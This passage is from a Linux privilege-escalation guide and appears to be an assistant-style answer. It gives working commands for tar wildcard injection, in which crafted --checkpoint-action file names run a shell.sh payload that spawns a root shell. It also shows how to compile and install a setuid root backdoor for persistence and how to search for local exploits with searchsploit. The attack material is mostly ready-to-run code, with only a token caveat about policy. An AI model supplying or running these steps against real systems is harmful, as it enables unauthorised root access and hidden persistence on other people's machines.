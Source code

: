 Notes:
- If the program uses absolute paths (e.g., /bin/cp), PATH hijack will not work.
- Some environments reset PATH for setuid; test and adjust accordingly.

### 4) Alternative exploit: tar wildcard injection (if the program uses tar with globs)
If you saw the program running something like tar czf /root/backup.tgz * inside a directory you can write to, you can inject malicious “files” that tar treats as options.

```bash
# Work in the directory the program tars with a wildcard (replace with the actual path)
DIR="/var/www/html"    # example; must be the directory tar runs in with '*'
cd "$DIR"

# Create malicious files that tar interprets as options
touch "--checkpoint=1"
touch "--checkpoint-action=exec=sh shell.sh"

# Payload that spawns a root shell (stderr/stdout tricks help visibility)
cat > shell.sh << 'EOF'
#!/bin/sh
exec /bin/sh -p <&2 >&2
EOF
chmod +x shell.sh

# Now trigger the SUID/backup program that runs 'tar ... *'
"$BIN"
id
```

Notes:
- This only works if the program passes a wildcard (e.g., *) to tar.
- If it uses absolute paths or ‘.’ rather than globs, this likely won’t work.

### 5) Post-exploitation: optional setuid root wrapper (for persistence)
Once root, you can drop a small setuid root shell (only if policy allows).

```bash
cat > /tmp/rootshell.c << 'EOF'
#include <unistd.h>
int main() { setuid(0); setgid(0); execl("/bin/sh","sh","-p",NULL); }
EOF
gcc /tmp/rootshell.c -o /tmp/rootshell
chown root:root /tmp/rootshell
chmod 4755 /tmp/rootshell

# Later:
#/tmp/rootshell
```

### 6) If the program is a known vulnerable version
```bash
# Identify program + version (strings, running with --version, dpkg -l / rpm -qa)
strings -a "$BIN" | head
"$BIN" --version 2>/dev/null || true

# Search for local exploits
searchsploit <program-name> <version>
```
